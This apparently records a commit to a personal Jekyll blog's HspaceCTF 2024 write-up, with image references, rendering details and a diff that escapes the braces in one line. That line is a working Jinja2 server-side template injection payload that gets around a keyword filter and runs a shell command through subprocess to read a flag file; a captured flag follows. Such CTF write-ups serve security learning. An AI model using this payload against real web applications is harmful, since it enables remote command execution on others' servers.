

Before and after one commit to jiniljeil/jiniljeil.github.io, a Jekyll site: the page built from _posts/2024-01-13-HspaceCTF 2024.md, in a window 1280 px wide and 900 px high, scrolled down 1683 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
HspaceCTF

```diff
--- a/_posts/2024-01-13-HspaceCTF 2024.md
+++ b/_posts/2024-01-13-HspaceCTF 2024.md
@@ -52,7 +52,7 @@ def Prevent_SSTI(input):
 키워드 위주로 필터링이 걸려있어 이를 우회해주면 된다.
 
 ## Exploit Code
-`http://3.34.190.217:1337/?name={{request[%22__%22+%22class%22+%22__%22].mro()[3].__subclasses__()[494](%27cat%20flag.txt%27,shell=True,stdout=-1).communicate()}}`
+`http://3.34.190.217:1337/?name=\{\{request[%22__%22+%22class%22+%22__%22].mro()[3].__subclasses__()[494](%27cat%20flag.txt%27,shell=True,stdout=-1).communicate()\}\}`
 
 ### FLAG
 hspace{57a32c35915278d4de4ca21a8dc22b7f642a2a33e1508050c9498e1e48290e38}
```
